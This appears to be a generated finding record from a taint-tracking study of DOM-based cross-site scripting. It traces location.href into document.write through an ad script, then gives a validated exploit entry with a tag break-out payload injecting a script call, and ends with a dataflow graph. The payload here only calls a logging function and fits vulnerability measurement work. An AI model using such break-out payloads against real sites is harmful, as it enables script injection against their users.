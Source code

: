 // Finding: 7027d7ff-5ae6-4a0c-90be-7acb7220ac0d
// Finding.url: https://www.example261.com/live-interactive-exercise-hp-alm.html
// Finding.parentloc: https://www.example261.com/live-interactive-exercise-hp-alm.html##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('8cd72298cbec420eaf9af2f28a4e60a6')</script><!--/*
// Finding.domain: www.example261.com
// Finding.base_domain: example261.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=99260&cbuster=1407305457&pubUrl=https://www.example261.com/live-interactive-exercise-hp-alm.html%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%278cd72298cbec420eaf9af2f28a4e60a6%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&x=728&y=90 - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 465
// Finding.end: 642
// Finding.original_uuid: 774781a9-0556-491b-9f94-8b28bcb903a3
// Finding.TwentyFiveMillionFlowsId: -816441067
// Finding.script: https://live.example5.com/live/liveView.php?s=99260&cbuster=1407305457&pubUrl=https://www.example261.com/live-interactive-exercise-hp-alm.html%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%278cd72298cbec420eaf9af2f28a4e60a6%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&x=728&y=90
// Finding.line: 914
// Exploit.uuid: 8cd72298-cbec-420e-af9a-f2f28a4e60a6
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 60
// Exploit.replace_begin_url: 60
// Exploit.replace_end_url: 60
// Exploit.replace_begin_param: 284
// Exploit.replace_end_param: 284
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -14591482
// DepGraph.sanitizer_hash: 192348521

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=99260&cbuster=140....3E%3C!--/*&subId=[SUBID_ENCODED]&x=728&y=90&cbuster=1620315552"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 728"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 90"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit: &csuuid=60940da03db35"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: &videoType=flow&floatWidth=400&floatHeight=225&floatDirection=....0&floatCloseBtn=1&flowMode=below&flowCloseButtonPosition=right"];
n23 [shape=box, label="Var: x"];
n24 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n15;
n19 -> n20;
n21 -> n19;
n21 -> n22;
n23 -> n21;
n24 -> n23;
}